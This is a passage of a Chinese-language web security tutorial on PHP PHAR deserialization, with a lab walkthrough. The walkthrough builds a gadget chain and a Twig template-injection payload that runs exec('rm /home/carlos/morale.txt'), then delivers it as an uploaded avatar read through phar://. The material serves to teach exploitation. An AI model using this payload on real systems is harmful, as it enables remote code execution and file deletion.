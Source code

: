 [![](https://p5.ssl.qhimg.com/t015741d43195ca277e.png)](https://p5.ssl.qhimg.com/t015741d43195ca277e.png)

### <a class="reference-link" name="PHAR%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96"></a>PHAR反序列化

这是一种特定于PHP的反序列化攻击。PHP有一个伪协议phar:\/\/，用于处理PHP存档文件(.phar)。这类文件包含序列化的元数据，所以phar:\/\/在处理这类文件的时候会默认执行反序列化操作，就可能会触发反序列化攻击。我们可以通过各种方式将.phar文件上传到phar:\/\/功能点，如扩展名绕过等。下面我们通过一道靶场来深入理解

### <a class="reference-link" name="%E9%85%8D%E5%A5%97%E9%9D%B6%E5%9C%BA%EF%BC%9A%E4%BD%BF%E7%94%A8PHAR%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E8%87%AA%E5%AE%9A%E4%B9%89%E5%B7%A5%E5%85%B7%E9%93%BE"></a>配套靶场：使用PHAR反序列化利用自定义工具链

登录，发现应用程序通过/cgi-bin/avatar.php?avatar=wiener访问用户的头像

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t014073b0327964b251.png)

尝试访问这个文件发现提示文件不存在，那我们尝试访问一下上级目录

[![](https://p2.ssl.qhimg.com/t012c3b032588ffa864.png)](https://p2.ssl.qhimg.com/t012c3b032588ffa864.png)

然后我们访问CustomTemplate.php~和blog.php~

[![](https://p3.ssl.qhimg.com/t0151535e878f4630ae.png)](https://p3.ssl.qhimg.com/t0151535e878f4630ae.png)

[![](https://p1.ssl.qhimg.com/t01c8017e9714dd0295.png)](https://p1.ssl.qhimg.com/t01c8017e9714dd0295.png)

我们发现CustomTemplate.php中file_exists可以用来对phar文件反序列化，所以我们需要将构造好的对象传递给它，然后继续分析发现本质就是传递给template_file_path属性，我们需要在Blog.php构造exec(rm /home/carlos/morale.txt)，发现使用了twig模板引擎，所以可以发动SSTI，这个后面的专题才会讲到，这里暂时不讲。至此我们可以构造这样的工具链

```
class CustomTemplate `{``}`
class Blog `{``}`
$object = new CustomTemplate;
$blog = new Blog;
$blog-&gt;desc = '`{``{`_self.env.registerUndefinedFilterCallback("exec")`}``}``{``{`_self.env.getFilter("rm /home/carlos/morale.txt")`}``}`';
$blog-&gt;user = 'user';
$object-&gt;template_file_path = $blog;
```

然后我们将上面payload制作成phar文件，这里可以搜到相关的脚本(如phar jpg polyglot)，这里可以直接使用burp制作好的，上传成用户的头像，在读取头像接口处使用phar:\/\/伪协议读取该头像即可成功发动序列化攻击，删除指定文件

[![](https://p1.ssl.qhimg.com/t01d1c64e2e3961038f.png)](https://p1.ssl.qhimg.com/t01d1c64e2e3961038f.png)

### <a class="reference-link" name="%E4%BD%BF%E7%94%A8%E5%86%85%E5%AD%98%E6%8D%9F%E5%9D%8F%E5%8F%91%E5%8A%A8%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%94%BB%E5%87%BB"></a>使用内存损坏发动反序列化攻击
